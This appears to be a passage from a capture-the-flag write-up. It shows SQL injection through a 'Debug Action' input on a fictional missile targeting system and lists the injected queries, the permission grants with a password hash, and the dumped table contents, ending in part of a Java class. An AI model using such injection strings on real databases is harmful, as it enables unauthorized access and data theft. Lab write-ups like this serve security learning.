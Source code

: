 </figure>

Looking at the Debug Action, we appear to have an attribute that we can enter a string into. Let's see what happens if we enter "; SELECT DATABASE()"

<figure markdown>
![script](../img/objectives/o21/db.png){ width="700"}
</figure>

Ok, we have a way to enter commands and get informatoin back. Time to start working on enumerating and see what we have

The pointing_mode and pointing_mode_to_str are relatd to the GetMode() function. Looks like we need to update the pointing_mode table to move from Earth to Sun
```sql
;SELECT * FROM pointing_mode;
d: 1 | numerical_mode: 0 | 

;SELECT * FROM pointing_mode_to_str;
id: 1 | numerical_mode: 0 | str_mode: Earth Point Mode | str_desc: When pointing_mode is 0, targeting system applies the target_coordinates to earth. | 
id: 2 | numerical_mode: 1 | str_mode: Sun Point Mode | str_desc: When pointing_mode is 1, targeting system points at the sun, ignoring the coordinates. | 
```

```sql
;SHOW GRANTS for 'targeter';
Grants for targeter@%: GRANT USAGE ON *.* TO `targeter`@`%` IDENTIFIED BY PASSWORD '*41E2CFE844C8F1F375D5704992440920F11A11BA' | 
Grants for targeter@%: GRANT SELECT, INSERT ON `missile_targeting_system`.`satellite_query` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`messaging` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`target_coordinates` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode_to_str` TO `targeter`@`%` | 
```
As we are connecting as "targeter", it looks like we only have "INSERT" rights on the sattelite_query table

```sql
;SELECT * FROM satellite_query;
jid: 1 | object: ?? .... | results: import java.io.Serializable;
import java.io.IOException;
import java.nio.charset.StandardCharsets;
import java.nio.file.*;
import java.util.stream.Collectors;
import java.util.stream.Stream;
import java.sql.*;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;
import com.google.gson.Gson;

public class SatelliteQueryFileFolderUtility implements Serializable {
    ...
```